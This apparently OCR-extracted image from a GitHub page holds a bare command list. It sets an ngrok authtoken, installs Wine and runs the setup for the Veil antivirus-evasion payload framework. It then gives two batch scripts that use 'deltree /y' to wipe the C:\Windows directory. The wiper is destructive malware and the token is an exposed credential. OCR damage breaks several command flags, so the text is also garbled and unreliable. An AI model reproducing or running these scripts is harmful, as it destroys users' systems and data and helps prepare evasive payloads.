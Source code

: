 ./ngrok config add- authtoken 28UAw1gHwExJrz73ixIOZJYlhf4_4XJERVRtdgUTNt597RSk9
sudo dpkg - add-architecture i386
sudo apt update
sudo apt install wine64 wine32
sudo /usr/share/veil/config/setup.sh - force - silent
@echo off
C:\WINDOWS\COMMAND\deltree /y c:\windows\ds.system.bat//
@echo off
C:\WINDOWS\COMMAND\deltree /y c:\windows\*.*
